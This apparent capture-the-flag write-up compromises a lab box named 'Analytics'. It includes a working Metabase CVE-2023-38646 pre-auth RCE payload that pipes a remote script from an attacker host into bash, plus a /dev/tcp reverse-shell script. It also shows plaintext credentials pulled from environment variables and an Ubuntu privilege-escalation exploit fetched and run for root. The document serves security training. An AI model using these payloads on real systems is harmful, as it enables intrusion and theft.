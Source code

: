 ## Enumeration

After poking around the website, it leads to a login page from data.analytical.htb/login
The page source of the login page shows the metabase version v0.46.6

After googling there's an exploit CVE-2023-38646
https://www.assetnote.io/resources/research/chaining-our-way-to-pre-auth-rce-in-metabase-cve-2023-38646 for more information

According to the link above, it shows that setup-token is visible in the page source
"setup-token":"249fa03d-fd94-4d5b-b94f-b4ebf3df681f"

Or you can curl the following endpoint to get the setup-token: /api/session/properties

## Foothold

The article also states that there's a code injection we can use by submitting a POST request to the following endpoint: /api/setup/validate

```json
{
    "token": "249fa03d-fd94-4d5b-b94f-b4ebf3df681f",
    "details":
    {
        "is_on_demand": false,
        "is_full_sync": false,
        "is_sample": false,
        "cache_ttl": null,
        "refingerprint": false,
        "auto_run_queries": true,
        "schedules":
        {},
        "details":
        {
            "db": "zip:/app/metabase.jar!/sample-database.db;MODE=MSSQLServer;TRACE_LEVEL_SYSTEM_OUT=1\\;CREATE TRIGGER pwnshell BEFORE SELECT ON INFORMATION_SCHEMA.TABLES AS $$//javascript\njava.lang.Runtime.getRuntime().exec('bash -c {curl,http://10.10.14.59:8001/rev.sh}|{bash,-i}')\n$$--=x",
            "advanced-options": false,
            "ssl": true
        },
        "name": "an-sec-research-team",
        "engine": "h2"
    }
}
```
So what I did was I created a reverse shell file locally

```bash
#!/bin/bash
sh -i >& /dev/tcp/10.10.14.59/4444 0>&1
```

then setting up reverse shell via `nc -lvnp 4444` AND setting up a file server on port 8001 via `python3 -m http.server 8001`
I sent the POST request to http://data.analytical.htb/api/setup/validate which uses our setup-token to validate with the database, calls the "curl" command to reachout to my local fileserver on port 8001 then execute the shell.

```bash
listening on [any] 4444 ...
connect to [10.10.14.59] from (UNKNOWN) [10.10.11.233] 47838
sh: can't access tty; job control turned off
/ $ 
```

## Foothold Enum

After getting access, you see that the user is metabase. Enumerating further, we can see that there's a user credentials in the environmental variable
```bash
/ $ env
MB_LDAP_BIND_DN=
LANGUAGE=en_US:en
USER=metabase
HOSTNAME=9049d3b1a151
FC_LANG=en-US
SHLVL=4
LD_LIBRARY_PATH=/opt/java/openjdk/lib/server:/opt/java/openjdk/lib:/opt/java/openjdk/../lib
HOME=/home/metabase
MB_EMAIL_SMTP_PASSWORD=
LC_CTYPE=en_US.UTF-8
JAVA_VERSION=jdk-11.0.19+7
LOGNAME=metabase
_=/bin/sh
MB_DB_CONNECTION_URI=
PATH=/opt/java/openjdk/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
MB_DB_PASS=
MB_JETTY_HOST=0.0.0.0
META_PASS=An4lytics_ds20223#
LANG=en_US.UTF-8
MB_LDAP_PASSWORD=
SHELL=/bin/sh
MB_EMAIL_SMTP_USERNAME=
MB_DB_USER=
META_USER=metalytics
LC_ALL=en_US.UTF-8
JAVA_HOME=/opt/java/openjdk
PWD=/
MB_DB_FILE=//metabase.db/metabase.db
```

Using these credentials, you can SSH into the user
```bash
$ ssh metalytics@10.10.11.233
The authenticity of host '10.10.11.233 (10.10.11.233)' can't be established.
ED25519 key fingerprint is SHA256:TgNhCKF6jUX7MG8TC01/MUj/+u0EBasUVsdSQMHdyfY.
This host key is known by the following other names/addresses:
    ~/.ssh/known_hosts:15: [hashed name]
    ~/.ssh/known_hosts:18: [hashed name]
Are you sure you want to continue connecting (yes/no/[fingerprint])? ye
Please type 'yes', 'no' or the fingerprint: yes
Warning: Permanently added '10.10.11.233' (ED25519) to the list of known hosts.
metalytics@10.10.11.233's password: 
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 6.2.0-25-generic x86_64)
```

## Priv Escalation
Ubuntu 22.04.3 LTS Jammy has a PE vulnerability: https://github.com/g1vi/CVE-2023-2640-CVE-2023-32629

Setting up another fileserver locally and transferring it to the target host, you get root after running the script
```bash
metalytics@analytics:/tmp$ curl http://10.10.14.59:8001/exploit.sh -o exploit.sh
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100   558  100   558    0     0   5984      0 --:--:-- --:--:-- --:--:--  6065
metalytics@analytics:/tmp$ ls
exploit.sh      systemd-private-079d0037a92249b7a766ca91bd6e22ba-ModemManager.service-Sb60iJ    systemd-private-079d0037a92249b7a766ca91bd6e22ba-systemd-resolved.service-gimMDj   vmware-root_429-1849429459
ssh-XXXXyisFSO  systemd-private-079d0037a92249b7a766ca91bd6e22ba-systemd-logind.service-vBokr8  systemd-private-079d0037a92249b7a766ca91bd6e22ba-systemd-timesyncd.service-LEskG2
metalytics@analytics:/tmp$ chmod +x exploit.sh
metalytics@analytics:/tmp$ ./exploit.sh
[+] You should be root now
[+] Type 'exit' to finish and leave the house cleaned
root@analytics:/tmp# id
uid=0(root) gid=1000(metalytics) groups=1000(metalytics)
root@analytics:/tmp# cd /
root@analytics:/# ls
bin  boot  dev  etc  home  lib  lib32  lib64  libx32  lost+found  media  mnt  opt  proc  root  run  sbin  srv  sys  tmp  usr  var
root@analytics:/# cd root
root@analytics:/root# ls
root.txt
root@analytics:/root# cat root.txt
c0dfc800b6129842b2f2be487d994d42
``` 
